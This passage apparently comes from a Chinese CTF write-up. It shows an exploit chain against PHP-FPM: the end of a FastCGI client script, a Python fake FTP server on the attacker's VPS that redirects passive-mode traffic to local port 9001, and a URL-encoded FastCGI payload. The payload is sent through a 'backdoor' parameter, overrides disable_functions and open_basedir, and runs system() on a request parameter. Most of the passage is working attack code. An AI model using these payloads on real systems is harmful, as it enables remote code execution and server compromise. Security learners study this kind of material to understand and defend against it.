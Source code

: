 ```php
    'SERVER_PROTOCOL'   => 'HTTP/1.1',
    'CONTENT_LENGTH'    => strlen($code)
);
// print_r($_REQUEST);
// print_r($params);
//echo "Call: $uri\n\n";
echo $client->request($params, $code)."\n";
?>
```

![image-20210505184651947](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/05/2021-05-05-image-20210505184651947.png)

然后在vps上起ftp：

```python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
s.bind(('0.0.0.0', 12345))
s.listen(1)
conn, addr = s.accept()
conn.send(b'220 welcome\n')
#Service ready for new user.
#Client send anonymous username
#USER anonymous
conn.send(b'331 Please specify the password.\n')
#User name okay, need password.
#Client send anonymous password.
#PASS anonymous
conn.send(b'230 Login successful.\n')
#User logged in, proceed. Logged out if appropriate.
#TYPE I
conn.send(b'200 Switching to Binary mode.\n')
#Size /
conn.send(b'550 Could not get the file size.\n')
#EPSV (1)
conn.send(b'150 ok\n')
#PASV
conn.send(b'227 Entering Extended Passive Mode (127,0,0,1,0,9001)\n') #STOR / (2) 注意打到9001端口的服务
conn.send(b'150 Permission denied.\n')
#QUIT
conn.send(b'221 Goodbye.\n')
conn.close()
```

```bash
/add_api.php?backdoor=$file = $_GET['file'];$data = $_GET['data'];file_put_contents($file,$data);&file=ftp://ip:12345/&data=%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%021%00%00%11%0BGATEWAY_INTERFACEFastCGI%2F1.0%0E%04REQUEST_METHODPOST%0F%19SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Fadd_api.php%0B%0CSCRIPT_NAME%2Fadd_api.php%0C%0EQUERY_STRINGcommand%3Dwhoami%0B%1BREQUEST_URI%2Fadd_api.php%3Fcommand%3Dwhoami%0C%0CDOCUMENT_URI%2Fadd_api.php%09%80%00%00%A5PHP_VALUEunserialize_callback_func+%3D+system%0Aextension_dir+%3D+%2Fvar%2Fwww%2Fhtml%0Adisable_classes+%3D+%0Adisable_functions+%3D+%0Aallow_url_include+%3D+On%0Aopen_basedir+%3D+%2F%0Aauto_prepend_file+%3D+%0F%0DSERVER_SOFTWARE80sec%2Fwofeiwo%0B%09REMOTE_ADDR127.0.0.1%0B%04REMOTE_PORT9001%0B%09SERVER_ADDR127.0.0.1%0B%02SERVER_PORT80%0B%09SERVER_NAMElocalhost%0F%08SERVER_PROTOCOLHTTP%2F1.1%0E%02CONTENT_LENGTH49%01%04%00%01%00%00%00%00%01%05%00%01%001%00%00%3C%3Fphp+system%28%24_REQUEST%5B%27command%27%5D%29%3B+phpinfo%28%29%3B+%3F%3E%01%05%00%01%00%00%00%00
```

